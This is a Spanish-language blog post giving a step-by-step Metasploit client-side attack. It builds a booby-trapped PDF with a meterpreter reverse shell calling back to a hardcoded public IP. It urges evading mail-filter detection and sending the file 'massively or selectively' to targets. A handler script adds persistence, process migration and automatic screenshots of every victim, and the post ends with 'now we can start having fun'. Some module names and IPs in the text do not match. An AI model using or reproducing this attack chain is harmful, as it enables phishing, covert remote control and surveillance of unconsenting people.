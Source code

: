 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}
###### {{ page.date | date_to_string }}

**[![](/assets/img/60.png)](/assets/img/60.png)**

#### Introducción

Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.

Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.

Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...

### Instalación

Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

Gemas necesarias:

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

Metasploit

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):

<pre class="sh_sh">
$ sudo su
# 
</pre>

- <http://www.darkoperator.com/installing-metasploit-in-ubuntu/>
- <https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment>


### Payload

Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.

- <http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks>

### Handler (servidor)

Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

- <http://johnbabio.wordpress.com/tag/autorunscript/>
- <https://community.rapid7.com/community/metasploit/blog/2010/03/22/automating-the-metasploit-console>

Listop, podemos empezar a divertirnos

- <http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics>
- <http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules>
- <http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/>
- <http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html>
